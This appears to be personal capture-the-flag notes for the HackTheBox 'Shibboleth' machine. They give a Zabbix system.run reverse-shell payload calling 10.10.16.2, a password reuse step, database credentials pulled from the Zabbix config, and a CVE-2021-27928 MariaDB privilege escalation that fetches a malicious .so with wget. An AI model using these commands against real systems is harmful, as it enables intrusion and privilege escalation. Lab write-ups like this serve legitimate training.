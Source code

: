 Administrator:ilovepumkinpie1

Let's make a revshell;

On the Zabbix portal, got to: Configuration > Hosts > Item > Create Item

Name it whatever you want and paste this payload in the key:

`system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 4141 >/tmp/f &,nowait]`

start a listener before clicking on test and sending the payload

```
┌──(kali㉿kali)-[/media/…/HTB/Boxes/Active Boxes/Shibboleth]
└─$ sudo nc -lvnp 4141                 
[sudo] password for kali: 
Listening on 0.0.0.0 4141
Connection received on 10.10.11.124 52064
/bin/sh: 0: can't access tty; job control turned off
$ whoami
zabbix
```

Get a full TTY:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Login to ipmi-svc (user)

```
zabbix@shibboleth:/home/ipmi-svc$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
zabbix@shibboleth:/home/ipmi-svc$ su ipmi-svc
su ipmi-svc
Password: ilovepumkinpie1
```

Our first [[Flags]]

Now to look around for another entry way..
We know that it's running a database so let's look through and see if we can find a password

```
ipmi-svc@shibboleth:/etc/zabbix$ ls
ls
peeesskay.psk       zabbix_agentd.conf.dpkg-dist  zabbix_server.conf.dpkg-dist
web                 zabbix_agentd.d
zabbix_agentd.conf  zabbix_server.conf
```

```
ipmi-svc@shibboleth:/etc/zabbix$        grep -v "^[#;]" /etc/zabbix/zabbix_server.conf | grep -v "^$"
<[#;]" /etc/zabbix/zabbix_server.conf | grep -v "^$"
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
Timeout=4
AlertScriptsPath=/usr/lib/zabbix/alertscripts
ExternalScripts=/usr/lib/zabbix/externalscripts
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000
StatsAllowedIP=127.0.0.1
```

zabbix:bloooarskybluh
IP: localhost

``mysql -h 127.0.0.1 -D zabbix -u zabbix -p'bloooarskybluh'``

`MariaDB [zabbix]> SELECT VERSION();
SELECT VERSION();
+----------------------------------+
| VERSION()                        |
+----------------------------------+
| 10.3.25-MariaDB-0ubuntu0.20.04.1 |
+----------------------------------+
`

Payload: https://github.com/Al1ex/CVE-2021-27928
*putting the payload in tmp*
``cd /tmp ; wget http://10.10.16.2/CVE-2021-27928.so``
connect to the db
`mysql -h 127.0.0.1 -D zabbix -u zabbix -p'bloooarskybluh'`
calling the revshell:
`SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";`
get the [[Flags]]